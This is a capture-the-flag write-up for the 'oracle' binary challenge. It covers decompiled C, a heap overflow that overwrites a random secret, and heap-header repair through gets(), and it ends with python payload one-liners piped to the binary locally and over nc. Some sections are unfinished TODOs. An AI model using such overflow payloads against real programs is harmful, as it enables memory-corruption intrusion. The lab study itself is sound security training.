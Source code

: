# Getting the challenge

The zip file contains a Dockerfile with some files that describes the service. One of the extra files is a binary that is running with a flag.txt placeholder. This is enough to test everything locally. If your environment differs significantly from the docker image, you can extract the libc from it and use it locally.

Upon running the binary, it asks 2 questions.

Everything is very similar to delphi, see [writeup](../delphi/WRITEUP.md).

![](screenshots/1.png)

# Checking the logic

Ghidra can recover the code ([oracle.c](workdir/oracle.c)) relatively well. 

```c
void FUN_00401334(void *param_1)

{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  // REDACTED
  return;
}

undefined8 FUN_0040146b(void)

{
  // REDACTED;
  __s = (char *)malloc(0x10);
  __s2 = (char *)malloc(0x20);
  memset(__s2,0,0x20);
  getrandom(__s2,0x20,0);
  for (local_5c = 0; local_5c < 0x20; local_5c = local_5c + 1) {
    if ((__s2[local_5c] == '\0') || (__s2[local_5c] == '\n')) {
      __s2[local_5c] = '*';
    }
  }
  do {
    if (local_60 == 1) {
      puts("You are a true mind reader.");
      FUN_004013b2(); //printing flag out
LAB_0040165d:
      // REDACTED
      return 0;
    }
    puts("Welcome to the Oracle of Delphi!");
    puts("Hic es forsit ut tuum futurum invenias.\n");
    puts(
        "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
        );
    puts("If not, shall the gods have mercy on your soul.\n");
    printf("What shall I think of (ie What\'s my favorite instrument)? ");
    FUN_00401334(__s);
    printf("So you asked: ");
    puts(__s);
    puts("Okay, now that\'s a good one. Let me think...");
    sleep(2);
    printf("Got it. Any clue what it is I had in mind? ");
    fgets(local_48,0x21,stdin);
    iVar1 = strncmp(local_48,__s2,0x20);
    if (iVar1 != 0) {
      puts("Nope, that\'s not it. You\'re doomed.");
      goto LAB_0040165d;
    }
    puts("Just double checking... What did you say? ");
    gets(__s);
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    free(__s2);
    free(__s);
    local_60 = 1;
  } while( true );
}

```

FUN_00401334 is used to read some input to a large enough buffer, then it copies strlen(buffer) amount into it's parameter deestination. 

FUN_0040146b is presumably the main function, it is allocating 2 buffers (size 0x10 and 0x20) with malloc and randomizing the latter with some filtering. The former is passed to the FUN_00401334 read function to hould our input. A third smaller local buffer is used to read some bytes in the second question, and this value is compared to the random one. Upon successfully guessing the random number, we receive an another chance to read into the input buffer, this time with gets, and the flag is given out.

# The problem

The reader function is ignoring the destination buffer size and overflow can occur. This can overwrite the random part. 

Pwntools can be used to generate some cyclic strings to easily spot memory patterns.

![](screenshots/2.png)

The program can be stopped on [malloc](https://cplusplus.com/reference/cstdlib/malloc/) and [strncmp](https://cplusplus.com/reference/cstring/strncmp/) to check the memory layout. 

![](screenshots/5.png)

The strncmp parameters will be passed in `$rdi` (guess), `$rsi` (random), `$rdx` (length).

During a normal run, at `$rsi-32` the input string for the first question can be seen, and at `$rsi`, the randomly generated variable.

![](screenshots/3.png)

During a run with overflow, the random is overwritten with the given input.

![](screenshots/4.png)

## Exploit

The allocated heap structure is deterministic, always allocating the same size in the same order.

The first question can overwrite the random with known value and the second question can use the known value. The program is using free before printing out the flag, so corrupting the heap structure is a problem this time. 


![](screenshots/6.png)


The second read to the input buffer with gets is after the check, and can restore the corrupted heap structure. Writing back the fixed structure fixing the problem.

```bash
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n"+"A"*24+"\x31\x00\x00\x00\x00\x00\x00\x00")' | ./oracle
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n"+"A"*24+"\x31\x00\x00\x00\x00\x00\x00\x00")' | nc 10.10.8.XX XXXX
```

![](screenshots/8.png)

TODO: replace screenshot from live environment

## Flag

TODO: add flag from live env